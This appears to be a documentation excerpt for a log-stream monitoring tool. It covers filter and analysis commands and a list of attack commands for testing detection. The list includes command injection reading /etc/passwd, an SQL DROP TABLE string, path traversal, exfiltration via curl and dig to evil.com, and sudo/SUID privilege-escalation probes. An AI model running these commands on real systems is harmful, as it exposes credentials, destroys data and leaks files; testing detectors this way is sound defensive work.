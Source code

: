 ### Filtering Noise
```go
// Ignore debug output
stream filter <id> exclude "DEBUG|TRACE"

// Focus on security keywords
stream filter <id> include "password|auth|sudo|exec"

// Rate limiting
stream filter <id> ratelimit 100/s
```

### Analysis Patterns
```go
// Real-time analysis (automatic)
stream analyze <id> auto

// Manual analysis trigger
stream analyze <id> now

// Historical analysis
stream analyze <id> --from="5m ago"
```

## Attack Examples to Test

### 1. Command Injection
```bash
# Via subprocess
python3 -c "import os; os.system('ls; cat /etc/passwd')"

# Via SQL
mysql -e "'; DROP TABLE users; --"

# Via path manipulation
cat "../../../etc/passwd"
```

### 2. Data Exfiltration
```bash
# Base64 encoding
cat sensitive.txt | base64

# DNS tunneling simulation
dig secret.data.evil.com

# Large data transfer
curl -X POST -d @/etc/passwd http://evil.com
```

### 3. Privilege Escalation
```bash
# Sudo attempts
sudo -l
echo "password" | sudo -S command

# SUID abuse
find / -perm -4000 2>/dev/null
```
